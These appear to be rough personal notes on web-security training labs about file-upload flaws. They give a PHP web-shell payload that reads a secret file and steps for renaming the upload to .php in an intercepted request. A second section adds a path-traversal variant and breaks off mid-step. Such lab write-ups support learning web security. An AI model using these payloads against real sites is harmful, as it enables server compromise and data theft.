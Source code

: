 ```bash

<?php echo file_get_contents('/home/carlos/secret'); ?>

Intercept is on
Upload the file as a .jpeg or .png file
Send to repeater
Change

Content-Disposition: form-data; name="avatar"; filename="file.jpeg"

to

Content-Disposition: form-data; name="avatar"; filename="file.php"

It states file is located @ 'avatar/file.jpeg'
Since the file extension was changed it should be found at 'avatar/file.php'

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /files/avatars/file.php HTTP/1.1

//or//

Go directly to /files/avatars/file.php
It never specifies that you will find the /avatars/file.php in the "/files" directory

https://ac731f5f1f1a8eb0c07226a700f5005f.web-security-academy.net/files/avatars/file.php

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220504192559.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220504193134.png)
### Web shell upload via path traversal
```bash

Target directory /home/carlos/secret 
Submit this secret using the button provided in the lab banner. 
You can log in to your own account using the following credentials: wiener:peter
Also chain exploits w/ directory traversal

Change

<?php echo file_get_contents('/path/to/target/file'); ?>

To

<?php echo file_get_contents('/home/carlos/secret'); ?>

Intercept is on
Upload the file

Change

Content-Disposition: form-data; name="avatar"; filename="file.php"

```